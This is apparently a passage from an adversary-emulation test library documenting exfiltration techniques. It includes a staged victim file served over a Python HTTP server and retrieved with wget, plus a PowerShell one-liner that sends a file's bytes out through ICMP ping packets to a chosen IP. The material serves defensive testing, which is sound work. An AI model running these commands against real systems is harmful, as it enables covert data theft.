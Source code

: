 


#### Run it with these steps! 
1. Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt







<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP
Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** dd4b4421-2e25-4593-90ae-7021947ad12e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent. | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```






<br/>
<br/>
